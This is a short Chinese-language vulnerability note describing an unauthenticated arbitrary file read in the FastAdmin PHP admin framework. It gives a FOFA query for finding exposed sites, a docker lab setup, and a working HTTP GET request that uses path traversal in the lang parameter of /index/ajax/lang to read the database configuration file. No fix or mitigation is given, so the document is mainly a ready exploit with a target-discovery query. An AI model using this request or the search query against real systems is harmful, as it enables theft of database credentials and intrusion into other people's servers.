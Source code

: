 # FastAdmin后台开发框架 lang 任意文件读取漏洞

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** FastAdmin后台开发框架 lang 任意文件读取漏洞



# 0x01 产品简介

FastAdmin是一款基于PHP+Bootstrap的开源后台框架，专为开发者精心打造。它基于ThinkPHP和Bootstrap两大主流技术构建，拥有完善的权限管理系统和一键生成CRUD等强大功能。FastAdmin致力于提高开发效率，降低开发成本，同时确保后台系统的稳定性和安全性。

# 0x02 漏洞描述

FastAdmin后台开发框架 /index/ajax/lang 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

# 0x03 FOFA语法

```
body="fastadmin.net" || body="<h1>fastadmin</h1>" && title="fastadmin"
```

# 0x04 环境搭建

```
git clone https://github.com/hellowzsg/docker-phper.git && cd docker-phper
docker-compose up -d php nginx mysql
```

# 0x05 漏洞复现

```
GET /index/ajax/lang?lang=../../application/database HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

 ![](image/982be5c5-9591-40a2-8daf-965b87a11c6e.png)